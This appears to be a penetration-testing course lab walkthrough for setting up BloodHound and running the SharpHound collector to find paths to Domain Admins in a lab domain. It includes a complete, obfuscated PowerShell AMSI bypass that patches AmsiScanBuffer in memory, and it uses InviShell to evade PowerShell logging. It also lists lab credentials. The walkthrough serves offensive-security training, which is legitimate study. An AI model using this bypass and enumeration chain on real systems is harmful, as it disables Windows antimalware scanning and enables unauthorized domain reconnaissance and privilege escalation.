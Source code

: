 # 06 - BloodHound - SharpHound

* Setup BloodHound and identify shortest path to Domain Admins in the dollarcorp domain

Unzip the archive C:\AD\Tools\neo4j-community-4.1.1- windows.zip.

Install and start the neo4j service as follows:

```powershell
.\neo4j.bat install-service
.\neo4j.bat start
```

Once the service gets started browse to:

```powershell
http://localhost:7474
username: neo4j
password: neo4j
newpassword: BloodHound
```

Now, run BloodHound and provide the following details:

```powershell
C:\AD\Tools\BloodHound-win32-x64\BloodHound-win32-x64\BloodHound.exe
bolt://localhost:7687
Username: neo4j
Password:BloodHound
```

**Byassping .NET AMSI before running SharpHound.ps1** using the following code:

```powershell
$ZQCUW = @"
using System;
using System.Runtime.InteropServices;
public class ZQCUW {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $ZQCUW

$BBWHVWQ = [ZQCUW]::LoadLibrary("$([SYstem.Net.wEBUtIlITy]::HTmldecoDE('&#97;&#109;&#115;&#105;&#46;&#100;&#108;&#108;'))")
$XPYMWR = [ZQCUW]::GetProcAddress($BBWHVWQ, "$([systeM.neT.webUtility]::HtMldECoDE('&#65;&#109;&#115;&#105;&#83;&#99;&#97;&#110;&#66;&#117;&#102;&#102;&#101;&#114;'))")
$p = 0
[ZQCUW]::VirtualProtect($XPYMWR, [uint32]5, 0x40, [ref]$p)
$TLML = "0xB8"
$PURX = "0x57"
$YNWL = "0x00"
$RTGX = "0x07"
$XVON = "0x80"
$WRUD = "0xC3"
$KTMJX = [Byte[]] ($TLML,$PURX,$YNWL,$RTGX,+$XVON,+$WRUD)
[System.Runtime.InteropServices.Marshal]::Copy($KTMJX, 0, $XPYMWR, 6)

```

Run the following commands to run Collector:

```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
cd C:\AD\Tools\BloodHound-master\BloodHound-master\Collectors
$ZQCUW = @"[snip .NET AMSI bypass]"@ #The code above
. .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All -Verbose
Invoke-BloodHound -CollectionMethod LoggedOn -Verbose
```

Upload the two zip created in BloodHound web and watch results.

The latest version of BloodHound (4.2.0) does not show Derivate Local Admin edge in GUI. The last version where it worked was 4.0.3. It is present in the Tools directory as BloodHound-4.0.3\_old. You can use it the same way as above.

Make sure to use the collector from BloodHound-4.0.3\_old with UI in BloodHound-4.0.3\_old. These are not compatible with BloodHound 4.2.0.

